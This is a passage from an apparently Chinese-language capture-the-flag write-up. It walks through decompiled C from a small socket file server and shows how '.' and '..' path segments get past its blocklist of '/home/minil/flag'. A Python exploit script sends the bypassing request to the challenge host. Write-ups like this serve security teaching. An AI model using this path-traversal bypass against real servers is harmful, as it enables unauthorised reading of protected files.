 这个函数就是把之前接收到的数据处理一下, 接受到的数据中含有 `"User-Agent: MiniL\r\n\r\n"` 和 `"GET $string\r\n"`, 然后就把 `$string` 内容返回. 由于之接收使碰到 `\r\n\r\n` 会停止, 所以输入可以把 `"GET $string"` 放在前.

sub_17DE 函数的最后一部分判断 `$string` 不是 `/home/minil/flag`, 然后执行 sub_14CE 函数, 传入的参数是 `$string` 和 socket fd.

```c
unsigned __int64 __fastcall sub_14CE(const char *a1, int a2)
{
  int *v2; // rax
  char *v3; // rax
  size_t v4; // rax
  FILE *stream; // [rsp+18h] [rbp-118h]
  char s[264]; // [rsp+20h] [rbp-110h] BYREF
  unsigned __int64 v8; // [rsp+128h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  stream = fopen(a1, "r");
  if ( !stream )
  {
    v2 = __errno_location();
    v3 = strerror(*v2);
    fprintf(stderr, "fopen error:%s\n\a", v3);
  }
  __isoc99_fscanf(stream, "%s", s);
  fclose(stream);
  v4 = strlen(s);
  send(a2, s, v4, 0);
  return __readfsqword(0x28u) ^ v8;
}
```

这个函数就是打开 `$string` 文件, 然后通过 socket send 出去.

到这里整个程序就看完了, 获得 flag 的方法也很简单, 就是利用 socket 通信, 发送数据, 让程序打开 flag 文件, 然后接收返回的 flag. 虽然它过滤掉了 `"/home/minil/flag"`, 但是可以通过两个有趣的目录 `.` 和 `..` 绕过. 比如 `"/home/./minil/flag"` 和 `"/home/../home/minil/flag"`

exp:

```python
import socket

s = socket.socket()
# host = 'localhost'
# port = 2048
host = 'pwn.archive.xdsec.chall.frankli.site'
port = 10047
s.connect((host, port))

payload = b'GET /home/./minil/flag\r\nUser-Agent: MiniL\r\n\r\n'
s.send(payload)
print(s.recv(100))
```

## RE
